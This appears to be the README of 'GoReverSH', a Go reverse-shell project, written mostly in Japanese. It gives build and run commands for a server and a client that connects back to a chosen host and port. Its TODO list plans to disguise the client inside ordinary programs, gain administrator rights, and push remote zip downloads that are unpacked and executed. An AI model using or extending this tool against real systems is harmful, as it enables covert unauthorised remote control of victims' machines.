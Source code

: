 # GoReverSH
![ソースコードサイズ](https://img.shields.io/github/repo-size/geniusmaaakun/GoReverSH)
![言語](https://img.shields.io/github/languages/top/geniusmaaakun/GoReverSH)
![ライセンス](https://img.shields.io/github/license/geniusmaaakun/GoReverSH)


Rogo画像

# Author 
en@ble@ny

# Description
This is Golang ReverseShell

# Usage
config/config.jsonで出力ファイル設定


## Build
### IOS
make build
### Windows
make build_win

## RUN
### Server
./goreversh_server
### Client
./goreversh_client -host "host" -port "port"


実行画面の画像


## Test
make test


# TODO
- [ ] makefile
変数　ビルドファイル名など

- [ ] color

- [ ] clean
    ファイル全削除


- [ ] upload　土日
    dir対応
    downloadを逆にする。
    クライアント側もオブザーバーパターンにする方がいい
    outをデコード　

- [ ] upload
特定のUrlのzipダウンロード、解答するコードを送りつけて実行するプログラム開発
もしくはDirectoryの場合は、zipを送りつけて解凍


- [ ] ダウンロード
    サイズ、パーミッション

- [ ] 出力ディレクトリ変更コマンド


- [ ] 別プログラムに偽装　バッチファイルなど
管理権限
別プログラムに偽装　普通のプログラムに仕込む
管理権限
画像表示コマンド　Windows
デスクトップアプリ　wails


- [ ] 暗号化
TLS -> AES共通鍵


- [ ] クライアントテストコード 
計画して一つずつ
connモックを使って読み込みするRead


- [ ] ロゴとアスキーアート

# 未実装
### Test
- [ ] TestWaitNotice
- [ ] TestClist
- [ ] CertTset

### 関数
- [ ] get hostname
- [ ] get currentuser


### Others
- [ ] ゴルーチンリークを注意

- [ ] build op make　でmainの変数に代入

- [ ] 操作ログを残す
logfile
出力をsetOutputで書き出し


- [ ] ダウンロードなどは、コネクション二つ貼ってやる方法もあり？
制御コマンド用と通信用


- [ ] 暗号化
base64でキーを埋め込み　RSA AESで暗号化
暗号文.共通鍵をサーバー側の秘密鍵で暗号化
クライアントは、公開鍵を受け取り複合化する


- [ ] TLSを使う？
実際は証明書を発行しないので、独自に暗号化する必要がある


- [ ] 自作ハッキングツール開発

- [ ] サーバー埋め込み型  クライアントコードにターゲットIPを埋め込む。もしくはconfig.jsonに入れる

- [ ] クライアント埋め込み型

- [ ] 管理者権限での実行方法　オプション？